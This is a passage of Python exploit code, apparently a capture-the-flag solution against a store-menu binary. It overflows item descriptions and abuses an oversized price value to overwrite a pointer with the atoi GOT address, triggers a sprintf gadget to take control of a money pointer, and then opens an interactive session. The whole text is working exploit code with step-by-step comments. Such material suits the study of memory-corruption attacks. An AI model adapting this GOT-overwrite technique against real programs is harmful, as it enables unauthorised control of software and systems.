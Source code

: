 ```
    readtil('OS?')
    sendln('4')
    readtil('price?')
    sendln(''+'9'*0xf)  # this will make the price of this item 0x7fffffff, ready to be abused later
    readtil('description?')
    # use this later to overwrite the ptr to the money DWORD
    sendln('A'+p(0x804b038)+'A'*(0x4f-5)) # 0x804b038 = atoi@got
    
    # allocate the rest of the items
    for i in range(13):
        readtil('choice?')
        sendln('a')
        readtil('name?')
        sendln('A'*0x1f)
        readtil('OS?')
        sendln('4')
        readtil('price?')
        sendln('-'+'9'*0xe)
        readtil('description?')
        sendln('B'*0x4f)    
    
    # overflow
    readtil('choice?')
    sendln('a')
    readtil('name?')
    sendln('A'*0x1f)
    readtil('OS?')
    sendln('4')
    readtil('price?')
    sendln('-'+'9'*0xe)
    readtil('description?')
    # 0x8049b64 is a pointer to 0x0804932e
    sendln('B'*(0x4f-4)+p(0x8049b64)) 

    # generate store menu & overflow; 2nd item now points to 0x8049b64: 0x0804932e -> sprintf function, used to overwrite ptr to money
    readtil('choice?')
    sendln('c') 
    
    readtil('choice?')
    sendln('d')
    readtil('choice?')
    sendln('b')
    print readtil('buy?')
    sendln('2')
    readtil('choice?')
    # get wholesale price, trigger function 0x0804932e
    sendln('b') 
    readtil('buy?')
    # this value is used as an argument for 0x0804932e, conveniently translated for us by atoi!
    # it is 0x804b280-51, so that the output of sprintf is aligned and will overwrite the money pointer with the address of atoi@got
    sendln('134525517') 
    readtil('choice?')

    # ok, now have control over ptr to money!
    t = telnetlib.Telnet()
    t.sock = s
    t.interact()
    
    s.close()

```